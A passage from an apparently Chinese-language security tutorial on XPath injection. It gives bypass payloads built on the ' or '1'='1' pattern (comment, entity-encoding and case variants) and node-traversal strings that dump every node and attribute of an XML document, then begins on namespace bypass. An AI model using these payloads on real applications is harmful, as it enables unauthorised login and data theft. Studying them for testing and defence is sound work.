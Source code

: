 但是 Xpath 的匹配还是比较严格的

还有一些绕过技巧

```javascript
# 注释绕过
' or '1'='1' (: comment :) and '1'='1

# 编码绕过
&#39; or &#39;1&#39;=&#39;1&#39; and &#39;1&#39;=&#39;1

# 大小写绕过
' OR '1'='1' AND '1'='1
```

如图片所示

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753244532668-72161fd4-473b-4cc4-b6de-c35511e20595.png)

### 节点遍历技术
使用特殊的XPath表达式可以遍历整个XML文档：

```python
# 获取所有节点
']|//*|//*['

# 获取所有属性
']|//@*|//*['
```

就是构造

```javascript
//user[username/text()='']|//*|//*[password/text()='123']
```



### 命名空间绕过
#### 什么是空间命名
```python
<root xmlns:a="http://example.com/a" xmlns:b="http://example.com/b">
  <a:user>admin</a:user>
  <b:user>guest</b:user>
</root>
```

 分别属于 `a` 和 `b` 命名空间  

就是说在XPath 查询时，如果不指定命名空间，就找不到这些元素  



所以我们手段就如下

有些XML文档使用命名空间，可以通过以下方式绕过：

> `local-name()` 是 XPath 中的函数，返回不含命名空间前缀的标签名。  
>

